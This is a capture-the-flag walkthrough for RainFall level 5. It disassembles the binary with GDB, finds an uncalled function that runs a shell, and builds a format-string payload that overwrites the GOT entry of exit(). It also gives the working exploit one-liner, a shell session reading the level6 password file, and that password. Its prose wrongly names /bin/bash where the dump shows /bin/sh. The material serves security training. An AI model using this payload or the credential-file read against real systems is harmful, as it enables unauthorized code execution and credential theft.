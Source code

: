 # Level5

## Exploring the binary
```shell
level5@RainFall:~$ ./level5
phantom
phantom
level5@RainFall:~$ ./level5
society 42
society 42
```
Similar to previous levels, this binary program awaits standard input and then prints it out.

## GDB analysis
```shell
(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:		push   %ebp
   0x08048505 <+1>:		mov    %esp,%ebp
   0x08048507 <+3>:		and    $0xfffffff0,%esp
   0x0804850a <+6>:		call   0x80484c2 <n>
   0x0804850f <+11>:	leave
   0x08048510 <+12>:	ret
End of assembler dump.
```
The main function calls <code>n()</code> upon execution.
```shell
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:		push   %ebp
   0x080484c3 <+1>:		mov    %esp,%ebp
   0x080484c5 <+3>:		sub    $0x218,%esp
   0x080484cb <+9>:		mov    0x8049848,%eax
   0x080484d0 <+14>:	mov    %eax,0x8(%esp)
   0x080484d4 <+18>:	movl   $0x200,0x4(%esp)
   0x080484dc <+26>:	lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:	mov    %eax,(%esp)
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:	mov    %eax,(%esp)
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	movl   $0x1,(%esp)
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
```
The input is once again collected using <code>fgets()</code> and safeguarded against buffer overflow. This function does not return to <code>main()</code> - it immediately terminates by calling <code>exit()</code>. It appears that we may encounter a <code>format string</code> attack again. We decide to look for other functions, since this is one is not offering much.
```shell
(gdb) i func
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  printf
0x08048380  printf@plt
0x08048390  _exit
0x08048390  _exit@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  system
0x080483b0  system@plt
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x080483d0  exit
0x080483d0  exit@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  o
0x080484c2  n
0x08048504  main
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
```
This reveals function <code>o()</code>, which is not used during runtime.
``` shell
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:		push   %ebp
   0x080484a5 <+1>:		mov    %esp,%ebp
   0x080484a7 <+3>:		sub    $0x18,%esp
   0x080484aa <+6>:		movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	movl   $0x1,(%esp)
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
```

At memory address <code>0x80485f0</code>, we locate the sought-after <code>/bin/bash</code>. Consequently, our next task is to devise a method to invoke this function at runtime.
```shell
(gdb) x/s 0x80485f0
0x80485f0:	 "/bin/sh"
```
## format string attack
We first determine which specific stack parameter is occupied by a string passed to <code>printf</code>.
``` shell
level5@RainFall:~$ python -c 'print "AAAA" + " %p" * 5' > /tmp/pattern5
level5@RainFall:~$ cat /tmp/pattern5 - | ./level5
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520
```
We found that the string <code>AAAA</code> resides in the fourth position of the buffer. Our next task is to locate the address of the <code>exit()</code> function, as we intend to overwrite this address with the address of our function <code>o()</code> (<code>0x080484a4</code>). To accomplish this, we need to inspect the dynamic relocation entries, which include the addresses stored in the <code>Global Offset Table (GOT)</code>:
``` shell
level5@RainFall:~$ objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```
This reveals that <code>exit()</code> resides at address <code>0x08049838</code>. With this information, we can now construct the <code>format string</code> attack to overwrite the address of <code>exit()</code> with the address of the <code>o()</code> function. To accomplish this using <code>printf()</code>, we first convert the hexadecimal address of <code>o()</code> to its decimal equivalent:
```shell
(gdb) print 0x080484a4
$1 = 134513828
```

## Exploit
``` shell
level5@RainFall:~$ python -c 'print "\x08\x04\x98\x38"[::-1] + "%134513824d%4$n"' > /tmp/flag5
level5@RainFall:~$ cat /tmp/flag5 - | ./level5
[...]
                                                                                                  512
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
